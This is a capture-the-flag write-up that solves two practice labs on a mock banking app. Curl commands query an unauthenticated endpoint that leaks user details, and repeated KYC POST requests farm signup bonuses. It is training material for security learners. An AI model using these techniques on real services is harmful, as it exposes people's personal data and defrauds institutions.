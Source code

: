 ## [The Vault Heist](https://defhawk.com/battleground/practice-lab/the-vault-heist) : Unauthenticated API Exploitation

### **Description to Participants**  
As a part of the challenge, you must gain access to all the details associated with a user account registered on the platform with the following:  
- **Email Address:** `acmeuser@nonexistentdomain.com`  
- **Phone Number:** `8928172127`  

### **Solution**  
Analyzing the source code, you will see that the application exposes an unauthenticated API endpoint present under "acme_banking_lab % less customerSupportApp/app.js"
`/getCustomerInfo/userDetails/<mobile number>`  
<img width="1433" alt="image" src="https://github.com/user-attachments/assets/7f800999-5e82-4718-9cbb-435b77039a29" />

This endpoint, intended for the customer support panel, leaks Personally Identifiable Information (PII) of registered users when queried with their registered mobile numbers. No authentication or authorization is required to access this data.

#### **Steps to Exploit**  
1. Use the following `curl` request to query the vulnerable API endpoint:
   ```bash
   curl https://sca.challenges.defhawk.com:5000/getCustomerInfo/userDetails/8928172127
   ```
2. The API will return user details, including the flag located in the `"address"` field.

### **Challenge Flag**  
```
HACK_QUEST{..}
```

---

## **[Phantom Profile](https://defhawk.com/battleground/practice-lab/phantom-profile): Exploiting Business Logic for Unlimited Rewards**

### **Description to Participants**  
Your challenge is to exploit the banking system to get more than `1337` rupees in your bank account. Once completed, send an HTTP request to:  
`http://localhost:3000/ctf/validateChall2`  
If the condition is satisfied, you will receive the flag.

### **Solution**  
The issue lies in the server-side logic of the `/account/updateKYC` endpoint. The server does not validate whether a user has already completed their KYC, allowing repeated submissions of KYC details. Each KYC submission triggers a 100-rupee signup bonus, enabling users to repeatedly gain bonuses.

#### **Steps to Exploit**  
1. Obtain a valid session token (`sessToken`) after logging into the system.
2. Send multiple `POST` requests to the `/account/updateKYC` endpoint using the following `curl` command:  
   ```bash
   curl -X POST https://sca.challenges.defhawk.com:3000/account/updateKYC \
   -b "sessToken=<token>" \
   -F "homeAddress=123 Main Street, Cityville" \
   -F "panCard=@<path_to_pan_card_image>"
   ```
3. Repeat the above request until the account balance exceeds `1337` rupees.
4. Send a final HTTP request to the validation endpoint to receive the flag:
   ```bash
   curl http://localhost:3000/ctf/validateChall2
   ```

### **Challenge Flag**  
```
HACK_QUEST{..}
```

